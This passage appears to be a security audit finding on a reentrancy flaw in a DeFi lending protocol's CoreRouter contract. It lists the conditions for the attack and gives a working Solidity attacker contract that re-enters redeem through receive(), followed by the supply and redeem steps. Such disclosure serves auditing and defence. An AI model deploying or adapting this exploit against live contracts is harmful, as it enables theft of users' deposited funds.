 - The attacker needs enough gas to execute multiple reentrant calls (in test, attacker reenters once):

- Token price/exchange rate must remain relatively stable during attack execution to ensure consistent redeem amounts:

- All these conditions are common in lending protocols, making this vulnerability practically exploitable in real-world conditions with minimal setup requirements

### Attack Path

## Attack Path

1. Attacker deploys malicious contract:

``` soilidity
 pragma solidity 0.8.23;

import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ReentrancyAttacker {
    CoreRouter public coreRouter;
    address public lToken;
    uint256 public amount;
    uint256 public attackCount;
    address public token;

    constructor(address payable _coreRouter) {
        coreRouter = CoreRouter(_coreRouter);
    }

    function attack(address _lToken, uint256 _amount, address _token) external {
        lToken = _lToken;
        amount = _amount;
        token = _token;
        attackCount = 0;
        // Use actual investment amount for redeem
        CoreRouter(coreRouter).redeem(_amount, payable(_lToken));
    }

    receive() external payable {
        if (attackCount < 1) {
            attackCount++;
            // Reenter with same amount
            CoreRouter(coreRouter).redeem(amount, payable(lToken));
        }
    }
}

```

2. Supplies small amount of tokens to get lTokens:
```
IERC20(token).approve(address(coreRouter), attackAmount);
coreRouter.supply(attackAmount, token);

```
3. Calls redeem with obtained lTokens
